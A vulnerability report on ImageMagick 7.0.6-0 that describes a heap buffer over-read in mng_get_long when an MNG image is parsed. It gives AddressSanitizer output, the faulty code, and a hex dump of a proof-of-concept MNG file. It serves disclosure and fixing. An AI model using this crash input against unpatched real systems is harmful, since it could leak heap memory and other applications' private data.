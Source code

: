 ImageMagick-7.0.6-0
<br>
```
  ~$identify $FILE or convert $FILE
```
<br>build instructions:
```
  ~$ sudo apt-get install imagemagick libmagick++-dev
  ~$ CC="gcc" CFLAGS="-fsanitize=address" ./configure 
  ~$ make;make install
```
when identify or convert MNG file, imagemagick will cause a heap buffer overflow
> =================================================================
==27897==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000008cd7 at pc 0x7fd15aeb8bae bp 0x7fffe2bc73e0 sp 0x7fffe2bc73d0
READ of size 1 at 0x602000008cd7 thread T0
    #0 0x7fd15aeb8bad in mng_get_long coders/png.c:1636
    #1 0x7fd15aec8041 in ReadOneMNGImage coders/png.c:5391
    #2 0x7fd15aed3e29 in ReadMNGImage coders/png.c:7497
    #3 0x7fd15aa4bc4f in ReadImage MagickCore/constitute.c:497
    #4 0x7fd15ac97e06 in ReadStream MagickCore/stream.c:1045
    #5 0x7fd15aa4b17c in PingImage MagickCore/constitute.c:226
    #6 0x7fd15aa4b5a9 in PingImages MagickCore/constitute.c:327
    #7 0x7fd15a40ba2a in IdentifyImageCommand MagickWand/identify.c:319
    #8 0x7fd15a462c7a in MagickCommandGenesis MagickWand/mogrify.c:183
    #9 0x40169a in MagickMain utilities/magick.c:149
    #10 0x4017be in main utilities/magick.c:180
    #11 0x7fd159cdb82f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #12 0x4012c8 in _start (/home/sf/ImageMagick-7.0.6-0/build-gcc/bin/magick+0x4012c8)

The vulnerability is caused when identify MNG image, which happens  in function mng_get_long (coders/png.c:1636) which is called by line 5391 at coders/png.c.  
Here is the critical code of mng_get_long and its call code:
```
static long mng_get_long(unsigned char *p)
{
  return((long) ((p[0] << 24) | (p[1] << 16) | (p[2] << 8) | p[3]));
}
```

```

        if (memcmp(type,mng_TERM,4) == 0)
          {
            int
              repeat=0;

            if (length != 0)
              repeat=p[0];

            if (repeat == 3)
              {
                final_delay=(png_uint_32) mng_get_long(&p[2]);
                mng_iterations=(png_uint_32) mng_get_long(&p[6]);

                if (mng_iterations == PNG_UINT_31_MAX)
                  mng_iterations=0;

                image->iterations=mng_iterations;
                term_chunk_found=MagickTrue;
              }
```
It is caused by heap buffer overflow, which is caused by a read operation without overflow check.
The p buffer is pointer to chunk, its buffer data and  length are read from input file,

```
        p=NULL;
        chunk=(unsigned char *) NULL;

        if (length != 0)
          {
            chunk=(unsigned char *) AcquireQuantumMemory(length,
             sizeof(*chunk));

            if (chunk == (unsigned char *) NULL)
              ThrowReaderException(ResourceLimitError,
                "MemoryAllocationFailed");

            for (i=0; i < (ssize_t) length; i++)
              chunk[i]=(unsigned char) ReadBlobByte(image);

            p=chunk;
          }
```
Set a breakpoint at line 5391. Then print length of p, when program run to 5391, the length of p is 7, and code of line 5391 called mng_get_long with argument &p[6], this is the last one of p, but the mng_get_long function operation read p[6],p[7],p[8] and p[9], so this  called a heap buffer overflow read.

In the function ReadOneMNGImage, length, type and p are read from input file. The poc file data as follwing: 
```
~$xxd $FILE
00000000: 8a4d 4e47 0d0a 1a0a 0000 001c 4d48 4452  .MNG........MHDR
00000010: 0000 0010 0000 0010 0000 0064 0000 0000  ...........d....
00000020: 0000 0000 0000 0000 0000 000b 2cf4 5caf  ............,.\.
00000030: 0000 0001 5445 524d 0300 0000            ....TERM....
```
When setting proper length and repeat value, it is possible to disclosing some critical data, such as heap chunk data and even other applications’ private data. 

####AdditionWhen setting proper “length” and “repeat” value, the mng_get_long function will cause different length heap buffer overflow. For example, in my debugging, when the value of length is 1, and will cause more heap overflow read.

####Testcase: 
